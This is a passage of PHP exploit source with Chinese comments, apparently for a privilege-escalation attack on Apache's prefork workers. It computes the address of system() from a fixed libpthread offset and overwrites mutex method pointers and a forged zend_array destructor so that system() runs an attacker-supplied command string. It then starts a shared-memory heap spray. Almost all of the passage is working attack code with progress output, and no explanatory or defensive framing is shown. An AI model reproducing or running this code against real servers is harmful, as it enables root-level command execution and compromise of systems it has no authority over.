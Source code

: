 ```
`}`

for($i = 0;$i&lt;count($pthread_region);$i++)`{`
    if($pthread_region[$i][2] === "r-xp")`{`
        $system_addr = $pthread_region[$i][0]+0xF4C0;//system 在libpthread-2.17.so代码段中的偏移
        break;
    `}`
`}`

if($system_addr === 0)`{`
    die("can't find system function addr\n");
`}`
echo "system function addr:0x".dechex($system_addr)."\n";

//将apr_proc_mutex_unix_lock_methods_t中的child_init改为zend_object_std_dtor
$child_init = $evil_mutex_methods_start_addr+0x30;
echo "child_init(0x".dechex($child_init).") =&gt; zend_object_std_dtor\n";
write_mem_qword($evil_mutex_methods_start_addr+0x30,$zend_object_std_dtor_addr);

//将混合结构zend_array的pDestructor指向system
$pDestructor = $evil_zend_array_start_addr + 0x30;
echo "pDestructor(0x".dechex($pDestructor).") =&gt; system\n";
write_mem_qword($pDestructor,$system_addr);

//将混合结构zend_array的meth指向apr_proc_mutex_unix_lock_methods_t
$meth = $evil_zend_array_start_addr + 0x8;
echo "meth(0x".dechex($meth).") =&gt; mutex_mthods_struct\n";
write_mem_qword($meth,$evil_mutex_methods_start_addr);
write_mem_qword($evil_zend_array_start_addr,0x1);

//将prefork_child_bucket中的mutex指向混合结构zend_array
$mutex = $evil_parent_start_addr + 0x10;
echo "mutex(0x".dechex($mutex).") =&gt; zend_array struct\n";
write_mem_qword($mutex,$evil_zend_array_start_addr);

//将混合结构prefork_child_bucket中的properties指向zend_array结构
$properties = $evil_parent_start_addr + 0x20+0x10;
echo "properties(0x".dechex($properties).") =&gt; zend_array struct\n";
write_mem_qword($properties,$evil_zend_array_start_addr);

//system 字符串 写入
for($i = 0;$i&lt;strlen($evil_string);$i++)`{`
    $b = ord($evil_string[$i]);
    write_mem($evil_string_start_addr+$i,$b);
`}`
write_mem($evil_string_start_addr+$i,0);

//将zend_array中的arData指向system字符串
$ar_data = $evil_zend_array_start_addr + 0x10;
echo "ar_data(0x".dechex($ar_data).") =&gt; evil string\n";
write_mem_qword($ar_data,$evil_string_start_addr);

//将zend_array中的nNumUsed设置为1，（自行分析代码去）
$nNumUsed = $evil_zend_array_start_addr + 0x18;
write_mem_qword($nNumUsed,1);


//堆喷
echo "\nSpraying the shared memory start\n\n";

$shm_region = get_mem_region("/dev/zero");
$evil_shm_start_addr = $evil_string_end_addr;
$evil_shm_end_addr = $shm_region[0][1];
```